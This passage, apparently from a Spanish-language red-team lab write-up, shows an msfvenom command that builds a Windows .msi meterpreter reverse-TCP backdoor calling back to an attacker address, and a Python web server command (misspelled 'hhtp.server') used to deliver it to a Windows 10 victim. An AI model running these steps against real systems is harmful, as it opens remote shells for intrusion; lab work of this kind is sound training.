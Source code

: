 ![Setting module](./redteam/set_exploit.png)

Se creo un fichero .msi el cual es un tipo de ejecutable que permite realizar instalaciones en ficheros especificos aun sin tener privilegios

La generación del archivo .msi con msfvenom permite crear un ejecutable que facilita la instalación del backdoor sin requerir privilegios elevados. **Esto garantiza una mayor probabilidad de éxito en la ejecución.**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.159.138 LPORT=443 -f msi > /root/Documents/installer.msi
```

Para insertar el fichero .msi se creo desde otra shell un servidor con python para de esta manera compartir el fichero que nos servirá como backdoor para conectar el W10 a la maquina atacante

El uso de un servidor Python para compartir el fichero .msi proporciona un medio sencillo y rápido para que la máquina víctima descargue el archivo.

```
python3 -m hhtp.server 80
```

![Server Running](./redteam/win_server_msi.png)
